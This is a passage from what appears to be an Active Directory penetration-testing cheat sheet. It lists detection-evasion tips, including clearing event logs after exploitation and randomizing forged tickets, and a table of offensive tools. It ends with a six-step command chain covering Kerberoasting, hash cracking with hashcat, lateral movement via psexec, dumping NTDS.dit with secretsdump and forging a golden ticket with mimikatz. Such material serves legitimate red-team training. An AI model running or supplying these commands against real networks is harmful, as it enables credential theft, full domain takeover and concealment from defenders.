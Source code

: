 ***

### XIV. ⚙️ Detection Evasion

✅ **Operational Security (OPSEC) Tips**

* Avoid noisy enumeration (`net group /domain`) on sensitive hosts.
* Use `-k` (Kerberos auth) instead of NTLM where possible.
* Clear event logs after exploitation (only in labs/CTFs).
* Randomize ticket lifetimes and usernames when forging.

***

### XV. ⚙️ AD Exploitation Toolset

| Category           | Tool                        | Usage                  |
| ------------------ | --------------------------- | ---------------------- |
| Recon              | BloodHound, SharpHound      | Privilege path mapping |
| Credential Dumping | Mimikatz, secretsdump.py    | Hash extraction        |
| Kerberos Abuse     | Impacket, Rubeus            | Ticket operations      |
| Lateral Movement   | PsExec, Evil-WinRM, SMBExec | Remote shells          |
| Persistence        | DCShadow, AdminSDHolder     | Stealth access         |
| Visualization      | BloodHound GUI              | Attack path analysis   |

***

### XVI. ⚔️ Real-World Attack Chain Example

```bash
# 1. Enumerate Domain Users
net user /domain

# 2. Kerberoast Service Accounts
GetUserSPNs.py corp.local/user:pass -output hashes.txt

# 3. Crack Hash
hashcat -m 13100 hashes.txt rockyou.txt

# 4. Use Cracked Creds for Lateral Movement
psexec.py svc_admin@10.0.0.5 cmd.exe

# 5. Dump NTDS.dit on Domain Controller
secretsdump.py -just-dc corp.local/Administrator@10.0.0.10

# 6. Forge Golden Ticket
mimikatz "kerberos::golden /domain:corp.local /sid:S-1-5-21-1337 /krbtgt:<hash> /user:Administrator"
```
